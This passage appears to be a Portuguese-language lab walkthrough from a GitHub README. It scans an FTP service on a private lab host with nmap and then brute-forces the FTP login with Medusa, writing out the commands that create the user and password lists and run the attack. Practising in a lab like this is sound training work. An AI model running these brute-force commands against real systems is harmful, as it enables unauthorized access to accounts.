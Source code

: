 ## 2.	Após conseguir se conectar, nosso objetivo será verificar se há vulnerabilidades no antigo FTP, utilizando a ferramenta > nmap <  

Obs: Foi verificado que, sim, há vulnerabilidades onde se encontra os “STATE open “ .
<p align="center">
  <img alt="ftp" src="image/nmap.png" width="100%">
</p>




## 3.	Para verificar se o FTP está conectado utiliza-se o comando  “ftp e o IP da máquina “
Ex:  ftp 192.168.56.101
OBS: Porém, ainda não temos acesso de Login e Senha.
<p align="center">
  <img alt="ftp" src="image/ftp.png" width="100%">
</p>

## 4.	Para conseguir o Login e Senha foi feita uma lista de possíveis login e senhas utilizadas e após o comando da ferramenta de ataque de força bruta   “ Medusa“.
<P>Ex: </P>     
<P> echo -e “user\nmsfadmin\nadmin\nroot’  >  users.txt</P>
<P>	echo -e ‘123456\npassword\nqwerty\nmsfadmin’  >  pass.txt</P>
<P>	medusa -h 192.168.56.101 -U users.txt -p pass.txt -M ftp -t 6 </P>
